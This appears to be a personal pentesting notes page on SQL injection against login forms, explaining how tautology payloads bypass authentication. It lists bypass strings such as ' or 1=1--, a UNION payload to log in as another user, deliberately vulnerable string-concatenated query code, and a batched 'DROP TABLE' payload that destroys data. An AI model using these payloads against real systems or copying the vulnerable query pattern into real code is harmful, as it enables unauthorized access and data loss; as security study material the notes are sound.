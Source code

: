 ```yaml
---
title: 'SQLi - Login Pages '
updated: 2023-11-06 10:23:31Z
created: 2023-11-05 05:04:21Z
latitude: -33.85985000
longitude: 151.20901000
altitude: 0.0000
---
```


Login forms that are connected to a database of users are often developed in such a way that the web application isn't interested in the content of the username and password but more whether the two make a matching pair in the users table. In basic terms, the web application is asking the database "do you have a user with the username bob and the password bob123?", and the database replies with either yes or no (true/false) and, depending on that answer, dictates whether the web application lets you proceed or not. 

## Try to Bypass Authentication

`admin' --`
`admin' #`
`admin'/*`
`' or 1=1--`
`' or 1=1#`
`' or 1=1/*`
`') or '1'='1--`
`') or ('1'='1--`

Login as different user
`' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`
*Old versions of MySQL doesn’t support union queries

`select * from users where username='%username%' and password='%password%' LIMIT 1;`

The **%username%** and **%password%** values are taken from the login form fields, the initial values in the SQL Query box will be blank as these fields are currently empty.
Enter the following in the password field:
`' OR 1=1;--`

Changes to:
`select * from users where username='' and password='' OR 1=1;`


## Test for BLIND ERROR BASED INJECTION
```
uName = getRequestString("username");
uPass = getRequestString("userpassword");

SELECT * FROM Users WHERE Name ="' + uName + '" AND Pass ="' + uPass + '"
```

Add to the Login and Password fields:
Username: `" or ""="`
Password:  `" or ""="`

Causes the sql statement
```
SELECT * FROM Users WHERE Name ="" or ""="" AND Pass ="" or ""=""
```

## Test for Batched Statements
```
txtUserId = getRequestString("UserId");
"SELECT * FROM Users WHERE UserId = " + txtUserId;
```
Add to the login field:
105; DROP TABLE Suppliers
`SELECT * FROM Users WHERE UserId = 105; DROP TABLE Suppliers;`
